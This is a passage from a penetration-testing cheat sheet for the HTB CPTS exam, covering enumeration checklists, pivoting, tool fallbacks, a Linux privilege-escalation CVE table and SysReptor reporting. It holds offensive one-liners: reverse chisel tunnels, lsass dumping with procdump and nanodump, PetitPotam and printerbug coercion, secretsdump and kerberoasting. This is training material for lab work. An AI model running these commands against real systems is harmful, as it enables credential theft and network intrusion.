- [ ] Check for [vhosts](enumeration-methodology.md#351-vhost-fuzzing-distinct-from-subdomain-enumeration): `ffuf -H "Host: FUZZ.<DOMAIN>"`
- [ ] Look at [SNMP (UDP 161)](enumeration-methodology.md#311-snmp-udp-161) — often leaks usernames and processes
- [ ] Check [NFS exports](enumeration-methodology.md#312-nfs-tcpudp-2049): `showmount -e <IP>`
- [ ] Try [default creds](login-brute-forcing.md) on every login panel
- [ ] Re-read your notes — is there a credential you haven't reused?
- [ ] Check for internal services (127.0.0.1) on compromised hosts → [pivot](tunneling-pivoting.md)
- [ ] Run [BloodHound](bloodhound-guide.md) again with new creds — new edges may appear
- [ ] Check [ADCS](active-directory-methodology.md#phase-6-ad-cs-active-directory-certificate-services-attacks): `certipy-ad find -vulnerable`
- [ ] Look at [file shares](enumeration-methodology.md#38-smb-tcp-139--445) again with new creds — new access?

### "I'm pivoting from a foothold — now what?"

When you compromise a dual-homed host, you're not done with enumeration — you're starting it again from a new vantage point.

```text
1. Confirm pivot opportunity (recon scripts auto-flag this):
   - Linux:   ip a               → second NIC on internal subnet?
   - Windows: ipconfig /all      → multiple adapters?
   - Both:    netstat/ss         → 127.0.0.1 services = port-forward target

2. Pick a tunnel (full reference: tunneling-pivoting.md):
   - SOCKS over SSH:    ssh -D 1080 user@pivot           (simple, slow, single-hop)
   - chisel:            attacker: chisel server -p 8000 --reverse
                        target:   chisel client <IP>:8000 R:1080:socks
   - ligolo-ng:         best for AD lab labs; routes ICMP+TCP+UDP through tun

3. Configure proxychains:
   echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
   # Test:  proxychains nxc smb <INTERNAL_IP>

4. Re-run enumeration through pivot — Phase 0-3 from the new viewpoint:
   proxychains nmap -sT -Pn <INTERNAL_SUBNET>/24       # -sT required (SOCKS = TCP-connect)
   proxychains nxc smb <INTERNAL_SUBNET>/24
   proxychains bloodhound-ce-python -d <DOMAIN> -u <USER> -p <PASS> -dc <INTERNAL_DC_IP> -c All

5. Re-test every cred you have through the pivot:
   - Hosts unreachable from external may accept your existing creds.
   - DC may now be reachable for DCSync/coerce.

6. Update notes with new attack surface BEFORE going deeper.
   Internal hosts often run different services / older patches than perimeter.
```

> **Trap:** running BloodHound directly through `proxychains` over SOCKS is slow (LDAP timeout-prone). Prefer `bloodyAD` with `-s socks5://127.0.0.1:1080` or run a SharpHound CE binary on the pivot host itself.

### "How do I know when to stop enumerating?"

| Phase | Exit when… | Hard cap |
|---|---|---|
| External port scan | Full TCP `-p-` complete + UDP top-100 done | 30 min per host |
| Service enumeration | Every open port has at least one banner + one auth attempt logged | 60 min per host |
| Web fuzzing | One full-depth recursive pass done; vhosts checked | 90 min per host before pivoting effort |
| Spraying / brute | Password policy read; ≤ N-1 attempts per user where N = lockout threshold | 30 min per spray round |
| BloodHound analysis | `Shortest paths to Domain Admins` queried + 5 standard pre-built queries reviewed | 30 min before re-collection |
| On-host privesc | recon.sh / recon.ps1 completed + 3 candidate vectors tested | 90 min |
| Cracking | hashcat 30-min dict run + rule attack | NEVER block on cracking — run in background |

> **The 90-minute rule:** if you've spent 90 minutes on one box without progress, **switch boxes for an hour**. Coming back fresh often surfaces what you missed.

### "My tool just errored — what's the backup?"

When the primary tool errors out, don't lose 30 minutes debugging — switch tool.

| Primary | Common error | Fallback 1 | Fallback 2 |
|---|---|---|---|
| `bloodhound-ce-python -c All` | LDAP signing required / cert error | `bloodhound-ce-python --bloodhound-ce` (latest schema) | SharpHound CE on Windows host: `Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp` |
| `certipy-ad find` | impacket version mismatch | Pin `certipy-ad>=5.0` + `impacket>=0.13.0` | `Certify.exe find /vulnerable` from Windows |
| `impacket-secretsdump` | `KRB_AP_ERR_SKEW` | sync clock: `sudo ntpdate <DC_IP>` or `sudo rdate -n <DC_IP>` | Use `nxc smb -k -H <HASH>` instead of impacket |
| `impacket-getST` (S4U) | `KDC_ERR_BADOPTION` | Add `-force-forwardable` (Bronze Bit) | Try Rubeus `s4u` from Windows |
| `nxc ldap --kerberoasting` | empty result | Try `impacket-GetUserSPNs <DOMAIN>/<USER>:<PASS> -dc-ip <DC_IP> -request` | Manual ldapsearch for `servicePrincipalName=*` |
| `coercer coerce` | `STATUS_ACCESS_DENIED` on all methods | Try unauth path: `python3 PetitPotam.py <LISTENER> <DC_IP>` | If Spooler running: `python3 printerbug.py <DOMAIN>/<USER>:<PASS>@<DC_IP> <LISTENER>` |
| `evil-winrm` | TLS cert error on cert auth | Add `-N` (skip TLS verify) or use HTTPS variant | `nxc winrm <TARGET> -u <USER> -p <PASS> -x 'cmd'` for one-shot exec |
| `mimikatz sekurlsa::logonpasswords` | Credential Guard / RunAsPPL | `procdump -ma lsass.exe; pypykatz lsa minidump lsass.dmp` | `nanodump --pid <LSASS_PID>` (multi-method, more evasive) |
| `hashcat` (no GPU on exam host) | slow CPU cracking | `john --format=<HASH_TYPE>` (CPU-tuned) | Online lookup: crackstation.net (only for already-leaked hashes) |
| `ffuf` | `Connection reset by peer` (rate-limit) | Add `-rate 50 -t 10` | Switch to `feroxbuster --rate-limit 5` |
| `proxychains nmap -sS` | crashes (TCP-connect required) | `proxychains nmap -sT -Pn` | `proxychains rustscan -a <IP> -- -sT` |

[↑ Back to top](#cpts-penetration-testing-methodology)

---

## 🛡️ Qualys TRU Arsenal — Linux CVE Quick Reference

Vulnerabilities discovered by the Qualys Threat Research Unit. Check these on every Linux target. **All entries below were primary-source verified against NVD/Qualys/distro trackers on 2026-05-17.**

| CVE | Name | Affected | Check Command | Impact |
|---|---|---|---|---|
| CVE-2021-4034 | **PwnKit** | polkit pkexec (since 2009) | `ls -la /usr/bin/pkexec` | Instant root (SUID) |
| CVE-2021-3156 | **Baron Samedit** | sudo 1.8.2–1.9.5p1 | `sudo --version` | Root without password |
| CVE-2024-6387 | **regreSSHion** | OpenSSH 8.5p1–9.7p1 | `ssh -V` / `nc <IP> 22` | Remote RCE (complex; 32-bit much easier) |
| CVE-2024-48990 | **Needrestart** | needrestart < 3.8 (Ubuntu Server default) | `dpkg -l needrestart` | Root via PYTHONPATH |
| CVE-2025-6018 | **pam-config** (chains with 6019) | SUSE pam-config 1.1.8-24.71.1 | `cat /etc/pam.d/common-session*` | `allow_active` escalation |
| CVE-2025-6019 | **udisks/libblockdev** (chains with 6018) | RHEL, Debian, SUSE, Ubuntu (most) | `dpkg -l udisks2 libblockdev*` | Root via crafted XFS image SUID bypass |
| CVE-2026-23268 | **CrackArmor** | Linux kernel AppArmor (multi-branch) | `aa-status` | Confused-deputy → root + namespace bypass |
| CVE-2026-3888 | **snap LPE** | Ubuntu 16.04 / 18.04 / 20.04 / 22.04 / 24.04 LTS | `snap version` | Race against systemd-tmpfiles cleanup of snap private /tmp |
| CVE-2026-46300 | **Fragnesia** | Linux kernel ESP module (Debian 5.10.x–7.0.7-1, Ubuntu all) | `lsmod \| grep esp` | LPE; pairs with Dirty Flag (NVD pending) |
| CVE-2026-43284 | **Dirty Frag** | Linux 4.11–7.0.5 (xfrm/ESP only) | `lsmod \| grep esp` | Write-what-where via in-place ESP decryption + MSG_SPLICE_PAGES |
| CVE-2026-31431 | **Copy Fail** | Linux 4.14–7.0-rc6 — broad vendor footprint | `cat /proc/crypto \| grep aead` | algif_aead in-place AEAD revert; CISA KEV |

> Full exploitation details in [linux-methodology.md](linux-methodology.md) → Section 4.7
> **Verification note:** all 7 of the 2025–2026 CVEs above were confirmed against NVD/Qualys/Ubuntu/Debian/SUSE primary sources on 2026-05-17. The "PAM+udisks" chain is two CVEs (6018 + 6019), not one; CVE-2026-3888 is a /tmp re-creation race (NOT a timing attack as some secondary sources describe).

[↑ Back to top](#cpts-penetration-testing-methodology)

---

## 📸 Reporting Workflow — SysReptor (HTB Official)

> **Pick ONE on Day 0, do not mix mid-engagement:**
> - **SysReptor** (cloud or self-hosted, **recommended**) — auto-renders PDF, has the official HTB CPTS template, supports inline asset uploads, exam-grade workflow. Documented below.
> - **CherryTree** (legacy, file-based, manual PDF export) — fallback only if SysReptor is unavailable. Documented in [reporting/cherrytree-structure.md](reporting/cherrytree-structure.md).
>
> The two flows assume different note-taking systems for Days 1-7. Choose on Day 0 and stick with it through Day 10. Do not start in CherryTree and migrate to SysReptor mid-engagement (or vice versa).

Primary tool: **SysReptor** with the official **HTB CPTS design** (https://docs.sysreptor.com/demo-reports/). Cloud or self-hosted both work for the exam. CherryTree files in [reporting/](reporting/) remain useful for live note-taking *during* the engagement, but the final deliverable is a SysReptor PDF.

### Day 0 — SysReptor setup

```bash
# 1. Get an account at sysreptor.com (cloud) OR self-host:
git clone https://github.com/Syslifters/sysreptor.git
cd sysreptor/deploy && bash install.sh        # docker-compose stack on :8000

# 2. Download the HTB CPTS design + import:
curl -LO https://docs.sysreptor.com/assets/reports/htb-designs.tar.gz
tar xf htb-designs.tar.gz
# Import via UI: Designs → Import → htb-designs.tar.gz
# OR via CLI (see below — install reptor first)

# 3. Install the reptor CLI (Python pip):
pip install reptor
reptor conf                                    # interactive auth setup (URL + API token)
# Token: in SysReptor UI → User → API Tokens → Create
```

### Create the exam project

```bash
# Create project from HTB CPTS design
reptor createproject --name "CPTS Exam YYYYMMDD" --design "HTB CPTS"
# Output includes the project URL — bookmark it; this is where ALL findings go.

# Verify
reptor project --list
```

### Capture cadence — what to log to SysReptor at each phase boundary

> Don't write findings narrative until Day 8. DO log raw evidence (screenshots, output snippets, host states) into the project's **Notes** continuously — the Notes tree later gets reorganized into formal findings.

| Trigger | What to capture | How (SysReptor) |
|---|---|---|
| Got a foothold | shell screenshot + `whoami/id` + host IP + initial vector | Notes → host page → paste image (drag-drop) + command block |
| Found a credential | source path + decrypted/cracked value + reuse test result | Notes → "Credentials" tree node → row per cred |
| Privesc succeeded | before-after `whoami /priv` or `id` + exact exploit command | Notes → host page → "Privilege Escalation" subnode + screenshot |
| Lateral move | src host + tgt host + cred used + target shell screenshot | Notes → "Lateral Moves" tree → table row + image |
| BloodHound path | path graph PNG + Cypher query + edges traversed | Notes → "AD Paths" → image + code block |
| Domain compromise | DCSync output (truncated to a few hashes) + DA shell screenshot | Notes → "Domain Compromise" node — top-level highlight |
| Coerce/relay | responder/ntlmrelayx output showing the relay + cert/hash obtained | Notes → "Coerce-Relay" → command + output paste |
| AD CS abuse | `certipy find` snippet showing ESCx + the `req`/`auth` chain | Notes → "ADCS" → image + chain steps |

### `reptor` CLI — exam-day workflow

```bash
# Import nmap output as findings (auto-creates open-port findings)
reptor nmap -i nmap.xml --push-findings

# Pull a finding template by tag, fill placeholders, push to project
reptor findingfromtemplate --tags ad,kerberoast
reptor findingfromtemplate --tags adcs,esc1

# Push image → SysReptor (returns markdown link to embed in finding)
reptor file --upload screenshots/foothold.png
# →   (paste into description)

# Export findings as TOML/JSON for backup
reptor exportfindings -o cpts-backup.json

# Generate the PDF
reptor render --project-id <UUID>             # or render via UI: Project → Render → PDF
```

### HTB CPTS finding fields (standard SysReptor schema)

When writing findings on Days 8-10, fill these fields per the HTB CPTS design:

| Field | Type | What goes here |
|---|---|---|
| `title` | string | Short identifier — "Domain Compromise via ESC8 NTLM Relay" |
| `cvss` | CVSS 3.1 vector | Use https://cvss.js.org for vector building; severity auto-derived |
| `cwe` | CWE selector | Pick the closest match — examiners check this |
| `affected_components` | list | Hosts/URLs/services impacted |
| `summary` (short_description) | string | One-line for executive summary |
| `description` | markdown | Technical explanation; **paste tool output here** |
| `impact` | markdown | Business consequence — "DA = full domain control = data exfil + ransomware" |
| `recommendation` | markdown | Specific patch, config change, or compensating control |
| `references` | list of URLs | NVD, vendor advisory, MITRE ATT&CK technique |
| `evidence` | list of images | Drag-drop screenshots; auto-uploaded to project |

### Daily cadence (10-day exam)

```text
End of every exam day:
  1. Open SysReptor project → Notes → ensure today's findings are captured
  2. reptor exportfindings -o backup-day-N.json   # off-host backup
  3. Update Notes "TOMORROW" node with first target for Day N+1
  4. Snapshot: zip the loot_<HOST>_<TIMESTAMP>/ dirs from recon scripts to a backup
```

### Report-day flow (Days 8-10)

```text
1. Open SysReptor project → "Findings" tab
2. For each Note tree node that's a real finding:
   a. Click "+ Finding" → pick template (by tag) or blank
   b. Fill the 10 schema fields above
   c. Drag-drop screenshots from disk into the description (auto-uploads)
   d. Set CVSS via the inline editor → severity auto-fills
3. Order: Critical → High → Medium → Low → Informational
4. Methodology section (HTB CPTS design has one): walk phase-by-phase
5. Executive Summary: 3-5 paragraphs — do this LAST after all findings written
6. Render → PDF → review for image breaks, broken links, copy-paste artifacts
7. Re-render after fixes. PDF is the deliverable — sysreptor.com/render is fast.
```

### Screenshot rules (CPTS examiners check these)

- **Capture exact commands.** Examiners want to reproduce.
- **Show the IP and hostname in every screenshot.** `PS1` with `\h@\u` or visible `ipconfig`/`ip a` adjacent.
- **Don't redact lab credentials.** HTB labs are fine to show. Real engagements: redact per RoE.
- **Capture FAILED attempts too** for the methodology section — shows you ruled out vectors.
- **Drag-drop directly into SysReptor.** Don't reference external file paths in markdown — uses inline asset uploads.

> **Scope reminder:** CPTS grading requires methodology demonstration, not just flags. A successful exploit with no documented methodology can still fail. Reverse: a documented attack chain with one missing flag often passes if walkthrough is solid.

> **Local refs (live note-taking only):** the [CherryTree note-tree structure](reporting/cherrytree-structure.md) — useful as a Notes-tree organizer mirror in SysReptor. The [screenshot capture guide](reporting/screenshot-guide.md) — capture-tooling tips. The [generic report template](reporting/report-template.md) — markdown template if SysReptor is unavailable.

[↑ Back to top](#cpts-penetration-testing-methodology)

---

## Cross-File Canonical References

Use these as the source of truth when topics overlap across files:

| Topic | Canonical File |
|---|---|
| Network discovery, port scanning, and protocol triage | [enumeration-methodology.md](enumeration-methodology.md) |
| Engagement workflow, scoping, rules of engagement, phase gating | [pentest-process.md](pentest-process.md) |
| Vulnerability scanning, triage, CVSS prioritisation, FP validation | [vulnerability-assessment.md](vulnerability-assessment.md) |
| Web app attack chains, injection testing, and API testing | [web-methodology.md](web-methodology.md) |
| App-specific attack playbooks (Tomcat, Jenkins, GitLab, Confluence, …) | [attacking-common-applications.md](attacking-common-applications.md) |
| Linux privilege escalation and post-foothold host work | [linux-methodology.md](linux-methodology.md) |
| Windows privilege escalation, token abuse, and lateral movement | [windows-methodology.md](windows-methodology.md) |
| AD attack chain from first creds to domain compromise | [active-directory-methodology.md](active-directory-methodology.md) |
| BloodHound query logic and edge-to-action mapping | [bloodhound-guide.md](bloodhound-guide.md) |
| Reverse / bind / web shells and payload generation | [shells-and-payloads.md](shells-and-payloads.md) |
| Metasploit modules, Meterpreter, handlers, post-ex modules | [metasploit-framework.md](metasploit-framework.md) |
| Targeted brute-force and password spraying per protocol | [login-brute-forcing.md](login-brute-forcing.md) |
| AV/EDR evasion, AMSI/ETW bypass, in-memory loaders | [av-evasion.md](av-evasion.md) |
| Tunnels, pivots, SOCKS, route-based access | [tunneling-pivoting.md](tunneling-pivoting.md) |
| Upload, download, exfiltration, and living-off-the-land transfer methods | [file-transfers.md](file-transfers.md) |
| Hash identification, cracking strategies, wordlist preparation | [password-cracking.md](password-cracking.md) |

[↑ Back to top](#cpts-penetration-testing-methodology)

---

## 📝 Exam Tips

1. **Enumerate everything before exploiting** — Don't tunnel-vision on the first port you see
2. **Keep notes** — Document every credential, hash, hostname, and access level
3. **Credential re-use is king** — Test EVERY cred against EVERY service on EVERY host
4. **Check sudo -l first** — It's the most common Linux privesc vector
5. **AMSI bypass before PowerShell tools** — Always bypass AMSI before importing scripts on Windows
6. **BloodHound early** — Run BloodHound collection as soon as you get domain creds
7. **Don't forget UDP** — SNMP (161) often leaks usernames, processes, and credentials
8. **Pivot aggressively** — Check `ipconfig /all` and `ip a` for dual-homed hosts
9. **Time management** — You have 10 days. Spend Day 1-2 on enumeration, Day 3-7 on exploitation, Day 8-10 on report
10. **Transfer tools efficiently** — Use the [file transfer playbook](file-transfers.md) for quick reference

---

## 🔗 Essential External References

| Resource | URL | Use Case |
|---|---|---|
| RevShells | [https://www.revshells.com](https://www.revshells.com) | Generate reverse shells for any language/platform |
| GTFOBins | [https://gtfobins.github.io](https://gtfobins.github.io) | Unix binary exploitation, sudo/SUID shell escapes |
| LOLBAS | [https://lolbas-project.github.io](https://lolbas-project.github.io) | Windows Living Off the Land binaries |
| HackTricks | [https://book.hacktricks.wiki](https://book.hacktricks.wiki) | Comprehensive pentesting reference |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) | Payload lists for web attacks, injection, etc. |
| CyberChef | [https://gchq.github.io/CyberChef](https://gchq.github.io/CyberChef) | Encoding, decoding, crypto operations |
| CrackStation | [https://crackstation.net](https://crackstation.net) | Online hash lookup (quick wins before cracking) |
